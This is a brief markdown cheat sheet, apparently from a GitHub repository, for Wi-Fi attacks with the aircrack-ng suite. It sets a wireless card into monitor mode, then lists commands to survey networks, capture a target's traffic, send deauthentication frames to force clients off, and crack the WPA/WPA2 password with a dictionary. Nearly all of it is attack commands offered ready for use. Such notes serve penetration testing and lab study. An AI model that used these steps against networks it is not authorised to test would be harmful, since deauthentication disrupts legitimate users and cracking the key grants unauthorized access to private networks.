 ## Setting Up ALFA Card to be in monitor mode
```
sudo airmon-ng check kill
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
iwconfig
```
### or
```
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor
iwconfig
```

## WPA/WPA2 Cracking
### Broad Survey
```
sudo airodump-ng --band abg <interface>
```
### Targeted Survey
```
sudo airodump-ng –bssid <bssid> –channel <#> -w <filename> <interface>
```
### Deauth
```
sudo aireplay-ng -0 <#> -a <bssid> -c <client MAC> <interface>
```
### Crack WPA2 Password
```
sudo aircrack-ng -w <dictionary file> <capture file> 
```
